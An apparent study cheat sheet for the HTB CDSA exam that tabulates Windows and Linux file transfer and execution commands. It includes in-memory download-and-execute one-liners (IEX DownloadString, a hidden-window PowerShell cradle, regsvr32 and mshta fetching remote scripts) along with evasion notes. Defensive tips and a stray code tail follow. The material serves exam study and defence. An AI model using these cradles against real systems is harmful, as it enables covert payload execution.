 
## Introduction
This reference guide provides a comprehensive overview of file transfer and execution techniques relevant to the HTB Certified Defensive Security Analyst (CDSA) exam. It is organized by platform and method, with detailed command usage, descriptions, and modifiers to assist in both offensive and defensive contexts.

---

## Windows: PowerShell-Based Transfers & Execution

| Command | Description | Modifiers / Notes |
|--------|-------------|-------------------|
| `Invoke-WebRequest -Uri <URL> -OutFile <filename>` | Downloads a file from a URL | Use `-UseBasicParsing` for older PowerShell versions |
| `Invoke-Expression (New-Object Net.WebClient).DownloadString('<URL>')` | Executes script directly from web | Avoids disk writes; useful for in-memory execution |
| `powershell -command "IEX(New-Object Net.WebClient).DownloadString('<URL>')"` | One-liner for remote script execution | Can be obfuscated for evasion |
| `Start-Process powershell -ArgumentList '-ExecutionPolicy Bypass -File script.ps1'` | Executes PowerShell script with bypass | Useful for executing downloaded scripts |

---

## Windows: Native Transfer Tools

| Command | Description | Modifiers / Notes |
|--------|-------------|-------------------|
| `certutil -urlcache -split -f <URL> <filename>` | Downloads file using certutil | Commonly used by attackers; may be monitored |
| `bitsadmin /transfer myDownloadJob /download /priority high <URL> <filename>` | Uses BITS to download file | Deprecated but still functional on some systems |
| `ftp -s:script.txt` | Executes FTP commands from file | Requires pre-written script file |
| `copy \<IP>\share\file.exe .` | Copies file from SMB share | Requires share access and permissions |

---

## Linux: File Transfers & Execution

| Command | Description | Modifiers / Notes |
|--------|-------------|-------------------|
| `wget <URL>` | Downloads file from web | Use `--no-check-certificate` to bypass SSL errors |
| `curl -O <URL>` | Downloads file with original name | Use `-L` to follow redirects |
| `scp user@host:/path/to/file .` | Secure copy from remote host | Requires SSH access |
| `rsync -avz user@host:/path/to/file .` | Sync files from remote host | Preserves permissions and timestamps |
| `chmod +x file && ./file` | Makes file executable and runs it | Common for script execution |

---

## Cross-Platform Transfer Methods

| Command | Description | Modifiers / Notes |
|--------|-------------|-------------------|
| `python -m http.server 8080` | Serves files over HTTP | Works on both Windows and Linux |
| `nc -lvp 4444 > file` | Receive file via netcat | Use `nc -w 3` for timeout control |
| `echo -n '<base64>' | base64 -d > file` | Transfers via base64 encoding | Useful for clipboard or text-based transfer |
| `scp file user@host:/path` | Secure copy to remote host | Requires SSH access |

---

## Evasion & In-Memory Execution

| Command | Description | Modifiers / Notes |
|--------|-------------|-------------------|
| `powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('<URL>')"` | Executes script in memory | `-nop` disables profile; `-w hidden` hides window |
| `regsvr32 /s /n /u /i:http://<URL>/script.sct scrobj.dll` | Executes remote script via COM | Fileless technique; often used in red teaming |
| `mshta http://<URL>/payload.hta` | Executes HTA application remotely | Can be used for GUI-based payloads |
| `rundll32 <dll>,<export>` | Executes DLL function | Requires knowledge of export name |

---

## HTB CDSA Tips

- Always verify file integrity using hashes (e.g., `Get-FileHash`, `sha256sum`).
- Monitor native tools like `certutil`, `bitsadmin`, and `regsvr32` for suspicious activity.
- Use Sysmon and Windows Event Logs to detect in-memory execution and script downloads.
- Practice obfuscation techniques for PowerShell and HTA payloads.
- Understand how attackers use living-off-the-land binaries (LOLBins) for stealth.
- Test all commands in lab environments before using in production or exams.

---

This reference is designed to support HTB CDSA candidates in mastering file transfer and execution techniques across platforms.
"""

# Save the markdown file
output_path = "/mnt/data/HTB_CDSA_File_Transfer_Reference.md"
Path(output_path).write_text(markdown_content)

output_path
